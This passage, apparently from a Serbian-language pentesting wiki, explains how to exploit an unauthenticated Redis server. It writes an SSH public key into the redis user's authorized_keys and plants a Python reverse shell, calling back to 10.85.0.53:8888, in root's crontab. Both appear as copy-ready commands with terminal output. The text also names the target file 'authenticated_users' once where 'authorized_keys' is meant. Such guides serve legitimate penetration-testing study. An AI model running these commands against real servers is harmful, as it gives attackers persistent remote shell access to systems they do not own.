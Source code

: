 {% hint style="warning" %}
Imajte na umu da **nekoliko template engine-a kešira** šablone u **memoriji**, tako da čak i ako ih prepišete, novi se **neće izvršiti**. U ovim slučajevima, ili je programer ostavio automatsko učitavanje aktivno ili morate izvršiti DoS napad na servis (i očekivati da će se automatski ponovo pokrenuti).
{% endhint %}

### SSH

Primer [odavde](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)

Molimo vas da imate na umu da rezultat **`config get dir`** može biti promenjen nakon drugih ručno izvršenih komandi za eksploataciju. Predlažemo da ga pokrenete prvo odmah nakon prijavljivanja u Redis. U izlazu **`config get dir`** možete pronaći **home** direktorijum **redis korisnika** (obično _/var/lib/redis_ ili _/home/redis/.ssh_), i znajući ovo znate gde možete napisati datoteku `authenticated_users` da biste pristupili putem ssh **sa korisnikom redis**. Ako znate home direktorijum drugog važećeg korisnika gde imate dozvole za pisanje, takođe ga možete zloupotrebiti:

1. Generišite par javnog-privatnog ključa za ssh na svom računaru: **`ssh-keygen -t rsa`**
2. Napišite javni ključ u datoteku: **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. Uvezite datoteku u redis: **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4. Sačuvajte javni ključ u datoteku **authorized\_keys** na redis serveru:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

5. Na kraju, možete se **ssh**-ovati na **redis server** sa privatnim ključem: **ssh -i id\_rsa redis@10.85.0.52**

**Ova tehnika je automatizovana ovde:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab

```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
